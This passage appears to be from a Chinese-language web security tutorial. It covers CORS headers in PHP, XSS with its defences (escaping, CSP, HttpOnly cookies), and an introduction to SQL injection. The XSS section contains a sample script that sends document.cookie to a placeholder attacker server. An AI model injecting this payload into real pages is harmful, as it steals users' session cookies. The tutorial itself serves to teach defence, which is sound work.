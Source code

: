 3.特定 headers
{% codeblock lang:php %}
header('Access-Control-Allow-Headers: Origin, Content-Type, Accept');
{% endcodeblock %}

4.禁用憑證

{% codeblock lang:php %}
header('Access-Control-Allow-Credentials: false');
{% endcodeblock %}

5.請求數量限制
{% codeblock lang:php %}
header('Access-Control-Max-Age: 3600');
{% endcodeblock %}

## XSS

> 惡意使用者將程式碼注入到網頁上，其他使用者在觀看網頁時就會受到影響。這類攻擊通常包含了 HTML 以及瀏覽器語言。

[XSS 攻擊](https://zh.wikipedia.org/zh-tw/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
{% codeblock lang:js %}

<script>
var i = new Image();
i.src = "http://yourserver.com/log.php?cookie=" + document.cookie;
</script>

{% endcodeblock %}

SRC 設置為攜帶用戶 cookie 信息的 URL。當瀏覽器加載圖像時，發送 HTTP 請求到攻擊者的服務器，夾帶受害者 cookie。攻擊者可以在伺服器記錄 cookie，用於進一步攻擊。

1.輸入驗證和過濾：在用戶輸入數據之前對其進行驗證和過濾。可以使用一些現成的庫，如 DOMPurify 和 XSS 庫來進行輸入驗證和過濾。這可以幫助防止用戶在輸入中包含惡意腳本。

2.轉義輸出：在將用戶輸入數據渲染到頁面上之前，應將其進行轉義。防止惡意腳本在頁面上執行。例如，將所有特殊字符（如<、>和&）轉換為它們的 HTML 實體編碼（如<、>和&）。

3.使用 Content Security Policy（CSP）：指定來源加載資源。使用 CSP 可以幫助防止惡意腳本的注入和執行。例如，可以設置策略，禁止加載來外源腳本或樣式表。

4.設置 HTTP-only Cookie：設置 Cookie 為 HTTP-only。防止 XSS 攻擊者在用戶瀏覽器中竊取 Cookie。

5.避免 eval()和 innerHTML：eval()函數和 innerHTML 屬性可以將字符串解釋為代碼或 HTML。容易受到 XSS 攻擊，避免使用它們，替代方法，如 textContent 和 setAttribute。

## SQL injection

> SQL 隱碼或 SQL 注碼，是發生於應用程式與資料庫層的安全漏洞。簡而言之，是在輸入的字串之中夾帶 SQL 指令，在設計不良的程式當中忽略了字元檢查，那麼這些夾帶進去的惡意指令就會被資料庫伺服器誤認為是正常的 SQL 指令而執行，因此遭到破壞或是入侵

[SQL 注入](https://zh.wikipedia.org/zh-tw/SQL%E6%B3%A8%E5%85%A5)

users 表

```
users
------------------
id | username | password
------------------
1  | Alice    | pass123
2  | Bob      | 12345
3  | Charlie  | qwerty
```
